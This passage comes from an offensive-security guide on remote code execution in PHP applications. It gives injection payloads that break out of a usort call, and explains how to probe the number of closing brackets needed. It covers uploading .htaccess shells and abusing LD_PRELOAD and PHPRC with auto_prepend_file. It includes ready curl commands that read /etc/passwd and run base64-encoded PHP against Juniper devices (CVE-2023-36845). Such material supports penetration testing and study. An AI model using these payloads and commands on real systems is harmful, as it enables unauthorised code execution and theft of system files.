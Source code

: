 This function is used to sort an array of items using an specific function.\
To abuse this function:

```php
<?php usort(VALUE, "cmp"); #Being cmp a valid function ?>
VALUE: );phpinfo();#

<?php usort();phpinfo();#, "cmp"); #Being cmp a valid function ?>
```

```php
<?php
function foo($x,$y){
    usort(VALUE, "cmp");
}?>
VALUE: );}[PHP CODE];#

<?php
function foo($x,$y){
    usort();}phpinfo;#, "cmp");
}?>
```

You can also use **//** to comment the rest of the code.

To discover the number of parenthesis that you need to close:

- `?order=id;}//`: we get an error message (`Parse error: syntax error, unexpected ';'`). We are probably missing one or more brackets.
- `?order=id);}//`: we get a **warning**. That seems about right.
- `?order=id));}//`: we get an error message (`Parse error: syntax error, unexpected ')' i`). We probably have too many closing brackets.

### **RCE via .httaccess**

If you can **upload** a **.htaccess**, then you can **configure** several things and even execute code (configuring that files with extension .htaccess can be **executed**).

Different .htaccess shells can be found [here](https://github.com/wireghoul/htshells)

### RCE via Env Variables

If you find a vulnerability that allows you to **modify env variables in PHP** (and another one to upload files, although with more research maybe this can be bypassed), you could abuse this behaviour to get **RCE**.

- [**`LD_PRELOAD`**](../../../linux-hardening/privilege-escalation/index.html#ld_preload-and-ld_library_path): This env variable allows you load arbitrary libraries when executing other binaries (although in this case it might not work).
- **`PHPRC`** : Instructs PHP on **where to locate its configuration file**, usually called `php.ini`. If you can upload your own config file, then, use `PHPRC` to point PHP at it. Add an **`auto_prepend_file`** entry specifying a second uploaded file. This second file contains normal **PHP code, which is then executed** by the PHP runtime before any other code.
  1. Upload a PHP file containing our shellcode
  2. Upload a second file, containing an **`auto_prepend_file`** directive instructing the PHP preprocessor to execute the file we uploaded in step 1
  3. Set the `PHPRC` variable to the file we uploaded in step 2.
     - Get more info on how to execute this chain [**from the original report**](https://labs.watchtowr.com/cve-2023-36844-and-friends-rce-in-juniper-firewalls/).
- **PHPRC** - another option
  - If you **cannot upload files**, you could use in FreeBSD the "file" `/dev/fd/0` which contains the **`stdin`**, being the **body** of the request sent to the `stdin`:
    - `curl "http://10.12.72.1/?PHPRC=/dev/fd/0" --data-binary 'auto_prepend_file="/etc/passwd"'`
  - Or to get RCE, enable **`allow_url_include`** and prepend a file with **base64 PHP code**:
    - `curl "http://10.12.72.1/?PHPRC=/dev/fd/0" --data-binary $'allow_url_include=1\nauto_prepend_file="data://text/plain;base64,PD8KICAgcGhwaW5mbygpOwo/Pg=="'`
  - Technique [**from this report**](https://vulncheck.com/blog/juniper-cve-2023-36845).
